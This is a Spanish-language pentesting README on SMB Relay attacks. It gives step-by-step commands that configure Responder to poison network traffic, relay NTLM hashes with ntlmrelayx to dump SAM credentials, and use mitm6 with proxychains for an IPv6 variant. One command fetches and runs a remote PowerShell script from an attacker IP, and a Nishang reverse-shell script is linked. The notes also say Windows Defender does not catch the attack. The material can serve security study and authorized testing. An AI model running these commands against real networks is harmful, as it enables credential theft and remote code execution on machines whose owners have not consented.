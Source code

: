 # Qué es un SMB Relay?

- En vez de crackear hashes obtenidos con el Repsonder, podemos pasar esos hashes a alguna máquina específica para ganar acceso.
- Es necesario que el SMB no esté firmado para que no se de validado la legitimdad del origen.
- Las credenciales que se le pasen a un equipo deben ser de un Administrador del mismo.
- Algo a tener en cuenta es que el Windows defender no lo detecta por lo que se puede efectuar el ataque aunque esté activo.

# Explicación gráfica del vector de ataque

[Ver la imagen](Images/main/README.md)

# Como ver si el smb está fimado

```
crackmapexec smb <target>
```

[Ver Ejemplo](Images/firma/README.md)


# Comprobar si tus credenciales son privilegiadas sobre un equipo

```
crackmapexec smb <target> -u 'USUARIO' -p 'CONTRASEÑA'
```
[Ver Ejemplo](Images/creds/README.md)


# Configurar Responder para SMB Relay
HTTP y SMB deben estar en Off en la configuración del Responder

```
sudo nano /usr/share/responder/Responder.conf
```
<img src="https://i.imgur.com/XypgqGB.png" />

# Efectuar un SMB Relay por IPv4
El Responder debe estar activo envenenando el tráfico de la red,
```
python /usr/share/responder.py -I tun0 -rdw
```
```
ntlmrelayx.py -tf <targets.txt> -smb2support
```
[Ver Ejemplo de dumpeo de SAM](Images/sam/README.md)

# Ejecutar comandos mediante un SMB Relay por IPv4
```
ntlmrelayx.py -tf <targets.txt> -smb2support -c "powershell IEX(New-Object Net.WebClient).downloadString('http://192.168.0.0:8000/PS.ps1')"
```
[Descargar shell de Nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

# Ejecutar comandos mediante un SMB Relay por IPv6
Primero envenenamos el dominio con `mitm6` para luego entrar en una sesión interactiva con `ntlmrelayx` y mediante el comando `socks` podremos ver las conexiones y el `AdminStatus` de los usuarios. En el caso de obtener un usuario con `AdminStatus True` podremos  añadir en la sección `[ProxyList]` de proxychains `socks4 127.0.0.1 1080`
y luego ejecutar cme con proxychains y dumpear la SAM del equipo sin saber la contraseña.
```
mitm6 -d <dominio>
```
```
ntlmrelayx.py -6 -wh <ip_atacante> -t smb://<ip_victima> -socks -debug -smb2support
```
```
proxychains cme smb <ip_victima> -u 'usuario' -p 'daigual' -d 'NombreDelDominio' --sam 2>/dev/null
```

